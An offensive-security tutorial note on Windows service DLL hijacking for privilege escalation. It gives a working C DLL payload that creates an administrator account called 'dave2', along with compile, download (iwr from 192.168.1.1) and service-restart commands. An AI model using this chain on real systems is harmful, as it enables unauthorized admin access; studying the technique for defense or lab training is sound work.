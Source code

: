 ```yaml
---
layout: post
title: Windows Service DLL Hijacking
titledate: 09/15/23
tags: ["infosec","offsec", "privesc", "powershell", "exploit", "dll"]
---
```


#### dll hijacking

if we are unable to replace the binary bc of a permission issue we may be able to work with its dlls

first let's find the running processes

    PS > Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

we can run procmon to display the loaded dlls of the binary we are interested in, however, we need admin creds to run procmon

depending on the application, if necessary we can copy the binary to our local system to execute in a different administrator environment to see which dlls we have available to us

in Procmon -> Filter -> Filter -> Proces Name is -> proc 'include'

to get our process to register in procmon

    PS > Restart-Service proc

looking at the procmon results we see a lot of name not found for a specific dll

with the missing dll we can attempt to write a dll to the dll search order path

    1. The directory from which the application loaded.
    2. The system directory.
    3. The 16-bit system directory.
    4. The Windows directory. 
    5. The current directory.
    6. The directories that are listed in the PATH environment variable.

dll main can be optional and executed when processes or threads attach to and execute the dll - 

if a dll does not contain a dll main function then that dll only provides resources

    PS > $env:path

checking the environment path 

```c
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
above is a MS example of a DLL that demonstrates the four cases in which a dll is used

since our example is trying to load a dll we will use that case

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    //i = system ("net user daveadmin password123!"); //to change a current users password.
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

now we cross compile our cpp code to the name of the dll we want to use

    $ x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll

copy the binary over to the correct directory

    PS C:\Users\me\dlldirectory > iwr -uri http://192.168.1.1/myDLL.dll -Outfile myDLL.dll

restart the service 

    PS > Restart-Service BetaService